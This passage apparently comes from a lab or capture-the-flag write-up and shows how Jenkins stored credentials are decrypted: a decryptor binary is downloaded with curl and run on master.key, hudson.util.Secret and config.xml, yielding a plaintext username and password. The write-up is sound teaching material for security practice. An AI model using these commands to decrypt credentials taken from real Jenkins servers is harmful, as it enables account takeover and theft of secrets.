 Now I can copy that string and `echo` it into `base64 -d` on my local system
to save it to a file.

Downloading the Go binary from jenkins-credential-decryptor like in [these
instructions](https://github.com/hoto/jenkins-credentials-decryptor#run-using-
a-binary) works great:

    
    
    oxdf@hacky$ curl -L \
    >   "https://github.com/hoto/jenkins-credentials-decryptor/releases/download/1.2.0/jenkins-credentials-decryptor_1.2.0_$(uname -s)_$(uname -m)" \
    >    -o jenkins-credentials-decryptor
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100   687  100   687    0     0   5088      0 --:--:-- --:--:-- --:--:--  5088
    100 2336k  100 2336k    0     0  4382k      0 --:--:-- --:--:-- --:--:-- 10.3M
    oxdf@hacky$ chmod +x jenkins-credentials-decryptor
    oxdf@hacky$ ./jenkins-credentials-decryptor 
    Please provide all required flags.
    
    Usage:
    
      jenkins-credentials-decryptor \
        -m master.key \
        -s hudson.util.Secret \
        -c credentials.xml \
        -o json
    
    Flags:
    
      -c string
            (required) credentials.xml file location
      -m string
            (required) master.key file location
      -o string
            (optional) output format [json|text] (default "json")
      -s string
            (required) hudson.util.Secret file location
      -version
            (optional) show version
    
    oxdf@hacky$ ./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml 
    [
      {
        "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
        "password": "c1cdfun_d2434\u0003\u0003\u0003",
        "username": "oliver"
      }
    ]
    

The pwn_jenkins [Python script](https://github.com/gquere/pwn_jenkins) works
as well:

    
    